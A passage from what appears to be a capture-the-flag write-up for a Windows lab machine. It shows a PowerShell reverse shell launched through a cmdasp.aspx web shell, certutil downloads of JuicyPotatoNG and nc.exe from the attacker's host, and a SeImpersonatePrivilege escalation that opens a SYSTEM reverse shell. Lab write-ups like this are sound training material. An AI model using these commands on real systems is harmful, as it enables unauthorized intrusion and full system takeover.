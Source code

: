 ```shell

Kerberos support for Dynamic Access Control on this device has been disabled.
```

It seems like this user has the infamous potato privilege SeImpersonatePrivilege enabled.

Lets get a true shell before we continue.

Go to revshells.com, get a PowerShell#3 (base64) reverse shell configured with kali tun0 IP and port 9005, start nc listener on Kali port 9005 and enter it on the cmdasp.aspx website interactive shell command input, then press execute.

We will get a response on our nc listener:

```shell
listening on [any] 9005 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.120] 56446
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
```

### JuicyPotatoNG
Now that we got a true shell, I will use JuicyPotatoNG to exploit and abuse this privilege.

Lets move le potato and nc.exe:

```shell
cd C:\Users\Public
certutil.exe -urlcache -split -f http://10.10.14.206/JuicyPotatoNG.exe
certutil.exe -urlcache -split -f http://10.10.14.206/nc.exe
```

After that, use icacls to grant permissions for everyone:

```shell
icacls nc.exe /grant Users:F
icacls JuicyPotatoNG.exe /grant Users:F
```

Start nc listener on Kali:

```shell
nc -lvnp 9201
```

Run JuicyPotatoNG.exe as follow:

```shell
C:\Users\Public\JuicyPotatoNG.exe -t * -p C:\Users\Public\nc.exe -a "10.10.14.206 9201 -e cmd.exe"
```

We got a response in our nc listening, giving us access as system:

```shell
listening on [any] 9201 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.120] 50121
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```

